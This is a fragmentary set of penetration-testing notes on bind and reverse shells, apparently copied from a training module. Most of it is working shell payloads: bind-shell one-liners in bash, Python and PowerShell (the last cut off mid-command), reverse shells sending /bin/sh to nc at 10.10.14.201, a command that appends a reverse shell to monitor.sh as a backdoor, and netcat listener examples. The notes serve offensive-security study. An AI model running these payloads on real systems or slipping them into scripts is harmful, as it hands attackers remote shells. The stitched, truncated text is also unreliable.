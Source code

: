 Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

---

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.sta
```
There 


`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 4444 >/tmp/f"`

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 4445 >/tmp/f' | tee -a monitor.sh

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://highon.coffee/blog/reverse-shell-cheat-sheet/


---

# BIND Shells

Setting up a listener:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
Connecting to it:
```bash
nc -nv 10.129.41.200 7777
```
